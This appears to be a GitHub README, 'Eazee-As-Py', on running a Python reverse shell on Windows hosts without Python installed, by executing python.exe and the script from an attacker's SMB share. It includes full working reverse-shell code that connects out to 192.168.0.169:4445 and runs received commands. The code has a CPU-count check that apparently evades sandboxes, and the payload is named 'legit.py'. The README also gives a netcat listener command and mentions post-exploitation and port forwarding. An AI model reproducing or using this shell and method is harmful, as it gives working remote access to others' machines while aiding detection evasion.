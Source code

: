 # Eazee-As-Py
## Execute Python Reverse Shells on Windows Hosts without Python Installed 😎

I spent this morning working out how I can execute Python on a Windows Host that doesnt have Python Installed.

There is no documentation I have found online on this particular technique so I am taking all the credit 💪🏼

Obviously using SMB shares for transferring files and running .exe is nothing new but this way we can load python into memory on a system that doesnt have Python installed. Also nothing touches disk. 

Essentially this is giving us more flexibility to execute Reverse Shells and carry out Post-Exploitation task if needed. For example see this on exposing an Internal HTTP Server using this technique with no SSH port forwarding - https://github.com/deeexcee-io/LOI-Bins#port-forward-example

Im assuming the possibilites are endless with this.

Not exactly ground breaking research just some abstract thinking whilst lying in bed at 1am. 🛌🏼

## EDIT

This random example has spawned more testing. see - https://github.com/deeexcee-io/LOI-Bins

## How to do it

* Have a Windows Attack Machine alongside Kali (you could do all this on windows btw, just install ncat https://nmap.org/download ) 🐱
* Download and install Python on Windows Attack Machine, ensure to tick add PYTHON to PATH on install 🐍
* Navigate to Install Folder - Mine is C:\Users\<USERNAME>\AppData\Local\Programs\Python\Python310
* Right click on Python310 Folder and Share it
* Go on advanced Sharng and give it a share name, I kept it as Python310
![image](https://user-images.githubusercontent.com/130473605/234895545-22794caf-0b53-4578-8d0e-c3452209c29f.png)
* Get a Windows Specific Python Reverse Shell, most of what I found on GitHub was the Client/Server.py files but they should be good or use this.
```python
import os
import socket
import subprocess


if os.cpu_count() <= 2:
    quit()

HOST = '192.168.0.169'
PORT = 4445

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))


while 1:
    try:
        s.send(str.encode(os.getcwd() + "> "))
        data = s.recv(1024).decode("UTF-8")
        data = data.strip('\n')
        if data == "quit": 
            break
        if data[:2] == "cd":
            os.chdir(data[3:])
        if len(data) > 0:
            proc = subprocess.Popen(data, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE) 
            stdout_value = proc.stdout.read() + proc.stderr.read()
            output_str = str(stdout_value, "UTF-8")
            s.send(str.encode("\n" + output_str))
    except Exception as e:
        continue
    
s.close()
```

* Save it in the same Folder - I named it legit.py

![image](https://user-images.githubusercontent.com/130473605/234902955-91f4113a-85ca-41ec-a134-d76242612491.png)

* Setup nc to catch shell on Kali `nc -lvnp <port>`
* On Windows Host in CMD point to python.exe on remote share and pass it the reverse shell name also hosted on remote share

![image](https://user-images.githubusercontent.com/130473605/234904613-8f8f530f-1568-4ff1-b614-f1dd55423beb.png)

* Enjoy your Python Reverse Shell from a Windows Host that doesnt have Python installed

![image](https://user-images.githubusercontent.com/130473605/234906073-576c9241-4c1f-4296-8fd0-6b1e233baf92.png)




